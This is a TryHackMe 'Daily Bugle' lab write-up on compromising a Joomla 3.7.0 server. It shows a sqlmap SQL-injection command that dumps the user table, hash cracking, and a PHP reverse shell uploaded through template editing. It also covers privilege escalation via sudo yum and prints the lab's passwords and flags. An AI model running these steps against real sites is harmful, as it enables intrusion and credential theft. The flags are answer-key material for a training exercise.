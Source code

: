 ```yaml
---
title: "Daily Bugle - TryHackMe"
category: "THM"
pubDate: 2021-01-28
description: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate privileges."
---
```

[TryHackMe | Daily Bugle](https://tryhackme.com/room/dailybugle)

![https://i.imgur.com/4xkRRJC.png](https://i.imgur.com/4xkRRJC.png)

Deploy the machine - it may take up to 2 minutes to configure (Hard 🥴)

---

### Setup

```
Desktop/TryHackMe/daily_bugle » nmap -A -vv 10.10.85.30 -oN nmap_result
```

```
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX

80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home

3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

### Access the web server, who robbed the bank?

```
Spiderman
```

![](../images/dailybugle/Untitled.png)

---

![https://i.imgur.com/fREnB0x.png](https://i.imgur.com/fREnB0x.png)

Hack into the machine and obtain the root user's credentials.

### What is the Joomla version?

```
# As you can see on the nmap report the blog is using joomla, let's use some tools to enumerate the version and see if there is something interesting..
# https://github.com/Tuhinshubhra/CMSeeK
[✔] CMS URL: https://joomla.org
[✔] Joomla Version: 3.7.0
```

![](../images/dailybugle/Untitled1.png)

Nice, now we have the version let's see if there is an exploit in this version on exploitdb for example.

![](../images/dailybugle/Untitled2.png)

Yep ! There is a SQLi available ! 🙌

![](../images/dailybugle/Untitled3.png)

The exploit tells us to basically use sqlmap, well.. let's do that I guess.

```
# sqlmap command
sqlmap -u "http://10.10.85.30/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

If you want, you can use this exploit written with python 

[NinjaJc01/joomblah-3](https://github.com/NinjaJc01/joomblah-3)

![](../images/dailybugle/Untitled4.png)

```

[$] Found user : 'Super User', 'jonah', 'jonah@tryhackme.com', 
Hashed password : '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

Nice this is exactly what we wanted, let's crack the password.

### What is Jonah's cracked password?

```
# Let's crack the hash with hashcat / john
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

![](../images/dailybugle/Untitled5.png)

After ~40-45 minutes the password has been cracked : `spiderman123`

Now that we have the administrator's password let's upload some reverse shell 👀

![](../images/dailybugle/Untitled6.png)

Now that we successfully connected let's upload something.

![](../images/dailybugle/Untitled7.png)

Go to the `Extensions/Templates/Templates` tab.

And create a php page

![](../images/dailybugle/Untitled8.png)

##### Bonus, you can use my own extension to generate php shell and many more things !

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

![](../images/dailybugle/Untitled9.png)

![](../images/dailybugle/Untitled10.png)

Now let's juste save and close the page to see the magic happen 😎

![](../images/dailybugle/Untitled11.png)

And voilà ! You have successfully uploaded a reverse shell !

Now we can access the configuration of joomla `/var/www/html/configuration.php`

![](../images/dailybugle/Untitled12.png)

```
Password : 'nv5uz9r3ZEDzVjNu';
```

### What is the user flag?

![](../images/dailybugle/Untitled13.png)

To see what is the name of the user I cd into the `/home` directory to list all of the available users, and the rest is pretty straightforward, just SSH into the account with the password that you have cracked earlier.

```
# First flag 
27a260fe3cba712cfdedb1c86d80442e
```

### What is the root flag?

![](../images/dailybugle/Untitled14.png)

Payload → gtfobins

[yum | GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)

```
# Root flag
# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

